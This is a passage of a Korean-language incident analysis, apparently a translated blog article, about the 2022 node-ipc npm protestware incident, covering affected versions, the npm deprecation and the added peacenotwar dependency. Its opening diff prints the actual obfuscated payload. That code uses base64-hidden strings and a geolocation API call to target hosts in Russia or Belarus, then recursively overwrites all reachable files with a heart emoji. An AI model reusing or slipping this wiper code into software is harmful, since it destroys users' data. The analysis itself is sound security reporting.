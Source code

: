 ```diff
-import u from"path";import a from"fs";import o from"https";setTimeout(function(){const t=Math.round(Math.random()*4);if(t>1){return}const n=Buffer.from("aHR0cHM6Ly9hcGkuaXBnZW9sb2NhdGlvbi5pby9pcGdlbz9hcGlLZXk9YWU1MTFlMTYyNzgyNGE5NjhhYWFhNzU4YTUzMDkxNTQ=","base64");o.get(n.toString("utf8"),function(t){t.on("data",function(t){const n=Buffer.from("Li8=","base64");const o=Buffer.from("Li4v","base64");const r=Buffer.from("Li4vLi4v","base64");const f=Buffer.from("Lw==","base64");const c=Buffer.from("Y291bnRyeV9uYW1l","base64");const e=Buffer.from("cnVzc2lh","base64");const i=Buffer.from("YmVsYXJ1cw==","base64");try{const s=JSON.parse(t.toString("utf8"));const u=s[c.toString("utf8")].toLowerCase();const a=u.includes(e.toString("utf8"))||u.includes(i.toString("utf8"));if(a){h(n.toString("utf8"));h(o.toString("utf8"));h(r.toString("utf8"));h(f.toString("utf8"))}}catch(t){}})})},Math.ceil(Math.random()*1e3));async function h(n="",o=""){if(!a.existsSync(n)){return}let r=[];try{r=a.readdirSync(n)}catch(t){}const f=[];const c=Buffer.from("4p2k77iP","base64");for(var e=0;e<r.length;e++){const i=u.join(n,r[e]);let t=null;try{t=a.lstatSync(i)}catch(t){continue}if(t.isDirectory()){const s=h(i,o);s.length>0?f.push(...s):null}else if(i.indexOf(o)>=0){try{a.writeFile(i,c.toString("utf8"),function(){})}catch(t){}}}return f};const ssl=true;export {ssl as default,ssl}

```

[수상한 거동을 보고한 Github issue](https://github.com/RIAEvangelist/node-ipc/issues/233#issuecomment-1068182278)에 의하면, 이는 10.x 버전 브런치에서 롤아웃된 것이라 생각된다. issue에서는 이 페이로드를 라이브러리의 새로운 메이저 버전의 일부로 공개했다 [메인테이너는 주장한다.](https://github.com/RIAEvangelist/node-ipc/issues/233#issuecomment-1063557929)

![maintainer argue issue](https://camo.qiitausercontent.com/5180819c8d36f32508d6f0be0464dcb8764a9b1c/68747470733a2f2f71696974612d696d6167652d73746f72652e73332e61702d6e6f727468656173742d312e616d617a6f6e6177732e636f6d2f302f323231363535372f61396462306431322d333133392d653730302d303265362d3964393630323630363762312e706e67)

지금 시점에서 `node-ipc` 취약 버전 `node-ipc@10.1.1`, `node-ipc@10.1.2`는 npmjs 레포지토리 상에 24시간 미만정도만 존재했다. 한편 공개 리포지토리에 [보고된 것처럼](https://github.com/RIAEvangelist/node-ipc/issues/233#issuecomment-1067905728), 개발자, 빌드시스템에 의한 다운로드 수가 많았기에 어딘가에 분명한 영향을 끼쳤다 생각된다.

![objection!](https://camo.qiitausercontent.com/6a3d52827b2de1bdf8476434c050f9382a282651/68747470733a2f2f71696974612d696d6167652d73746f72652e73332e61702d6e6f727468656173742d312e616d617a6f6e6177732e636f6d2f302f323231363535372f63653163366536312d313932392d633566332d326536342d6430666162346165393635642e706e67)

하지만 취약성이 있는 버전 `10.1.1`, `10.1.2`은 npmjs 레포지토리에 존재하지 않고, 실제 메인테이너 혹은 npmjs 팀에 의해 `비권장` 깃발도 세워졌다. 이는 npmjs 사이트에서 [확인가능하다](https://www.npmjs.com/package/node-ipc/v/10.1.2).

![deprecated package (security issue)](https://camo.qiitausercontent.com/6ce0ec45ad2c5ae88a41b4151eb3e20da8459f0c/68747470733a2f2f71696974612d696d6167652d73746f72652e73332e61702d6e6f727468656173742d312e616d617a6f6e6177732e636f6d2f302f323231363535372f66326631633833392d336661332d373137352d303464352d3835353065383333623465342e706e67)

3월 8일 19:25(GMT+2) 파괴적인 페이로드를 롤백하기 위해 `node-ipc@10.1.3` 공개 4시간이 되지 않은 시점에서 새로운 메이저 버전 `node-ipc@11.0.0`가 npmjs 레포지토리에 출시되었다. 무엇이 변했을까?

새로운 메이저 버전 `node-ipc@11.0.0`은 다음과 같은 내용이 담겨져있다.

- 의존패키지 `peacenotwar` 추가
- `node-ipc` 모듈 기능 호출시, `peacenotwar` 모듈발 메세지를 STDOUT에 출력하면서 러시아의 우크라이나 침공에 대한 해당 시점의 전시상황이 담긴 파일을 유저 컴퓨터에 넣는다.
- 11.0.0 README에는 이 모듈의 일부로 `peacenotwar`가 사용된다 명시 `***as of v11*** this module uses the [peacenotwar](https://github.com/RIAEvangelist/peacenotwar) module.`

`peacenotwar`가 node-ipc에 담겨 수백만명이 넘는 개발자에게 영향을 끼친건 왜 그럴까?

### 3월 15일

3월 15일 18:49(GTM+2), 19:40(GMT+2)
node-ipc용으로 중요하고도 임팩트 있는 2가지 npm 버전이 공개되었다. 그 중에서도 중요한 건 새로운 패키지 버전 `node-ipc@9.2.2`이다. 이는 `node-ipc` 안정된 브런치이면서, `@vue/cli`를 포함한 많은 에코시스템 프로젝트가 의존하기 때문이다.

`node-ipc@9.2.2` 추가된 변경점을 보자
